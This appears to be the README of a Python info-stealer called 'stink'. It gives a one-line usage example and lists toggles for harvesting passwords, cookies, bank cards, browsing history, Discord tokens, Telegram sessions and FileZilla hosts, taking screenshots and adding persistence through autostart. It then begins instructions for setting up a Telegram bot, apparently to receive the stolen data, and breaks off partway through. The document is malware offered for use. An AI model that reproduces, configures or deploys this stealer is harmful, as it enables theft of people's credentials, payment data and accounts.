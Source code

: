## Example usage
### Standard
```python
from stink import Stealer

if __name__ == '__main__':
    Stealer(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
### Additional parameters

- `errors` - error output.

- `autostart` - adding to autostart.

- `passwords` - collecting passwords.

- `cookies` - collecting cookies.

- `cards` - collecting of bank cards.

- `history` - collecting search history.

- `bookmarks` - collecting bookmarks.

- `processes` - collecting of active processes.

- `system` - collecting system configuration.

- `screen` - screenshot.

- `discord` - collecting Discord tokens.

- `telegram` - collecting Telegram sessions.

- `filezilla` - collecting FileZilla hosts.

All parameters take the value of `bool`. 

- `True` - the function is enabled.

- `False` - the function is disabled.

All functions are enabled by default, except for error output and adding to autostart.

## Telegram bot setup
### Getting token
1. Open a chat with [BotFather](https://t.me/botfather).
2. Write the command ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>
